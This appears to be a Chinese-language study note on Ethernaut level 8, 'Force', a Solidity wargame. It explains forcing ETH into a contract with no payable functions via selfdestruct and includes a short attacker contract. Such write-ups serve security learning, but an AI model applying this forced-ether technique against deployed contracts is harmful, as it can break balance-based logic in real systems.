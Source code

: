```yaml
---
title: Ethernaut 闯关笔记 第8关 Force
date: 2023-12-13 00:29:46
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# 攻击思路

因为该合约没有任何 `payable` 函数，也没有 `receive()` 函数，因此不能直接发送交易。

强制调用合约代码，可以使用另一个合约的 `selfdestruct()` 关键字。

每一个合约都可以通过 `selfdestruct(address)` 关键字实现自毁，并将剩余的 ETH 余额发送到指定的地址。

注意，ERC-20 代币余额并不会被发送，自毁后这些代币将会永久丢失。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract ForceHack{

    function destroy(address forceAddress) public {
        selfdestruct(payable(forceAddress));
    }

    receive() payable external{}
}
```

# 冷知识

`selfdestruct` 已被标记为 `deprecated` ，在 [EIP-4758](https://eips.ethereum.org/EIPS/eip-4758) 中被废除并将其 opcode 修改为 `SENDALL` 。

`SENDALL` 只发送全部的 ETH 余额，但不会删除合约的 bytecode 。

